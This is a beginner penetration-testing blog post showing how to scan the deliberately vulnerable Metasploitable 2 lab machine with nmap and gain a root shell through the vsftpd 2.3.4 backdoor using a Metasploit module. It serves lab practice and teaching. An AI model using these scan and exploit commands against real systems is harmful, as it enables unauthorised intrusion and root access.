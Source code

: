 ```yaml
---
layout: post
title: Exploiting FTP in Metasploitable 2
---
```


## Metasploitable 2

![Metasploitable2]({{/_site/images/metasploitable1/meta0.png)


Metasploitable 2 is a deliberately vulnerable linux machine that is meant for beginners to practice their penetration testing skills. The challenges included in metasploitable are straightforward but also provide you with the basis of hacking. 

I've decided to start a metasploitable series, where I write short and explanatory articles while exploiting vulnerabilities in the vulnerable machine. The short articles are meat to help beginners to understand the concepts without taking in too much information in a short period of time.

### Getting started

I'm going to assume that you have your attack machine(Kai Linux) and target (metasploitable2) set up in your hypervisor and ready to go. I am using VirtualBox.

The first thing that I did was to log in to the metasploitable machine using default credentials(msfadmin:msfadmin) and discover the IP address of the machine. I need this IP address to be able to scan the open ports on the metasploitable machine. To get the IP:

```
ifconfig
```
![Getting target IP](/_site/images/metasploitable1/meta1.png)

### Scanning

The next thing that I did was to scan the target machine from my attack machine. Scanning is the process of discovering the open ports on the target machine and the services running on those ports. This helps to narrow down the attack pattern against that machine. I used nmap for scanning:

```
nmap -sV -sS -p- -A 192.168.100.13
```
Let's break the options down

- sV: probe open ports to determine service and version information
- sS: TCP SYN connect
- -p-: scan all ports
- A: enable OS detection, version detection, script scanning and traceroute

![Scanning using nmap](/_site/images/metasploitable1/meta2.png)

The image above shows the results from the scanning. After you do the scan, you'll notice that the target machine has a considerable number of open ports, which means there are various attack vectors in this machine.

FTP, on port 21, is on top of the list from the scan results. It also shows the version being used, vsftpd 2.3.4. This gave me an idea on enumeration, and I went on to search if there are any known vulnerabilities on that version. 

![Some googling](/_site/images/metasploitable1/meta3.png)

### Exploitation

This version of ftp has a malicious backdoor installed on it that grants the attacker root access into the target machine. After reading about the exploit, I went and searched for it in the exploit database.

```
msfconsole
search vsftpd 2.3.4
```
The exploit is available in the database, so I can use the exploit to gain access into the target machine.

![Backdoor exploit in exploit database](/_site/images/metasploitable1/meta4.png)

```
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOSTS 192.168.100.13
exploit
```

After running the exploit, we get a shell inside the target machine. Running whoami shows that I am running as root, hence we have achieved our goal.

![Gaining access!](/_site/images/metasploitable1/meta5.png)

And that is how we do a simple ftp exploit on Metasploitable 2. I hope that was understandable, and easy to follow through.

More to come ...